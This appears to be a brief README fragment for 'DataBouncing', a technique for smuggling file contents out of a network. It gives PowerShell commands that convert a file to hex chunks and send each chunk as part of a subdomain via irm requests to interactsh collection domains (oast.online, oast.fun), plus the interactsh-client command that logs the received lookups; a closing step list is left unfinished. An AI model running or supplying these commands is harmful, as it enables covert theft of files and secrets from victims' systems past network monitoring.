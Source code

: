 # DataBouncing

```
interactsh-client -v -o Logs.txt
```


`$hex = Convert-FileToHexChunks -FilePath .\AST-Test.txt`

```
foreach ($i in $x.PSObject.Properties) {echo $i.Value}
```


```
irm "xregex.$secret.cln0jgqilvdjjg1nk8d0ksttdzkd7waij.oast.online"
```

```
foreach ($i in $x.PSObject.Properties) {$secret = $i.Value;irm "xregex.$secret.cln6u1qilvdt6859fml0quuh98ohq8huk.oast.fun"}
```

```
# 1. Convert File to hex 
# 2. segment with numbers 
# 3. 
```
